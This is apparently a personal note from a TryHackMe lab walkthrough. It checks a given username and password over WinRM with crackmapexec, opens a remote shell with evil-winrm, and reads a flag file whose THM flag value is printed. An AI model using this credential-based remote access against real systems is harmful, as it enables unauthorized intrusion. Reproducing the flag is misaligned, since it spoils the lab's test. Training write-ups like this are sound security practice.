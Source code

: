You have a valid User with credentials.

User: `buse`
Password: `uzunLM+3131`

## Crackmapexec

#Attacking_Machine 
Crackmapexec (CME)** is an excellent tool for enumerating and testing credentials across SMB, WinRM, and other Windows services. Here's how you can use it in your situation.


```
crackmapexec winrm 10.10.75.173 -u buse -p uzunLM+3131
```

![[Getting a shell-20250430115615528.webp]]

The results are: You can run *winrm* with the given credentials.

## evil-winrm

#Attacking_Machine 
Connect to the machine using 
```
evil-winrm -i 10.10.75.173 -u  Buse -p uzunLM+3131 
```

![[Getting a shell-20250430120000134.webp]]

#Winrm_Shell
Go to `C:\Users\buse\desktop`.

```
cd C:\Users\buse\desktop

cat "Flag 2.txt"
```



> [!Success] Flag 2
> THM{6f690fc72b9ae8dc25a24a104ed804ad06c7c9b1}

